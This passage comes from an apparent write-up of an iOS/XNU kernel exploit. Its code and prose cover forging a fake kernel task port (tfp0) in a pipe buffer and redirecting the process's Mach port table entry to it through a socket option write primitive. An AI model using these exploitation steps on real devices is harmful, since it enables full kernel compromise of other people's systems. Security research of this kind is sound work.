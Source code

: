 Now that we have our `tfp0pipe`, we can shove a fake kernel task port into its pipe buffer. But first we need to read out the crap that was shoved in it before to make it a page sized `kalloc` allocation:

```
kport_t ktfp0 = {0};
ktfp0.ip_bits = io_makebits(1, IOT_PORT, IKOT_TASK);
ktfp0.ip_references = 100;
ktfp0.ip_lock.type = 0x11;
ktfp0.ip_receiver = kern_ipc_space_kaddr;
ktfp0.ip_kobject = faketask_kaddr;
ktfp0.ip_srights = 99;

/* get rid of the stuff we sent to the pipe to create the initial pipe buffer... */
char junkbuf[colliderkzone - 1];
read(tfp0pipe[0], junkbuf, sizeof(junkbuf));

/* ...and replace it with our fake tfp0 */
write(tfp0pipe[1], &ktfp0, sizeof(ktfp0));
```

The only thing left to do is make our userland `tfp0` port actually point to the `tfp0pipe` pipe buffer. Let's step back for a moment and think about how the number that represents the `tfp0` port in userland is used in the kernel. A Mach port name in userland is made up of two parts: a generation number and an index. The generation number isn't important to us, but the index is. That index represents a spot in the table of our processes' Mach ports in kernel space. The index is bits 8 to 31, so we can figure out where our userland `tfp0` sits in our Mach port table by shifting `tfp0` to the right by eight bits. To access our table, we can read the `is_table` field of our `ipc_space` struct. The `is_table` is an array of `struct ipc_entry`, which looks like this:

```
struct ipc_entry {
	struct ipc_object *ie_object;
	ipc_entry_bits_t ie_bits;
	mach_port_index_t ie_index;
	union {
		mach_port_index_t next;		/* next in freelist, or...  */
		ipc_table_index_t request;	/* dead name request notify */
	} index;
};
```
<sup>*[xnu-4903.221.2/osfmk/kern/ipc_entry.h](https://github.com/apple/darwin-xnu/blob/a449c6a3b8014d9406c2ddbdc81795da24aa7443/osfmk/ipc/ipc_entry.h#L97)*</sup>

The `ie_object` field is a pointer to the associated Mach port. Getting the `ipc_entry` struct for our userland `tfp0` port is a piece of cake:

```
uint32_t tfp0_portidx = tfp0 >> 8;
tfp0_portidx *= sizeof(struct ipc_entry);

uint64_t baseaddr = myipcspace.is_table + tfp0_portidx;
```

`baseaddr` is the address of `tfp0`'s `ie_object`. In order to set up this write correctly, we subtract 18 from `baseaddr` because we're only using the last two bytes of an `in6_pktinfo` struct to zero `ie_object`'s bottom 16 bits out. But because of that, we're going to obliterate the 18 bytes of memory before this pointer. This isn't much of an issue; we'll just save those 18 bytes before the write. We set the `ip6po_pktinfo` field of our reallocated `ip6_pktopts` struct to `baseaddr`, call `setsockopt` with `evil_socket`, `IPV6_PKTINFO`, and our crafted `in6_pktinfo` struct, and after `setsockopt` returns, `tfp0` is a fully functional, but fake, kernel task port! The only thing left to do is restore the 18 bytes we saved before the write, which we can easily do with a call to `vm_write`.
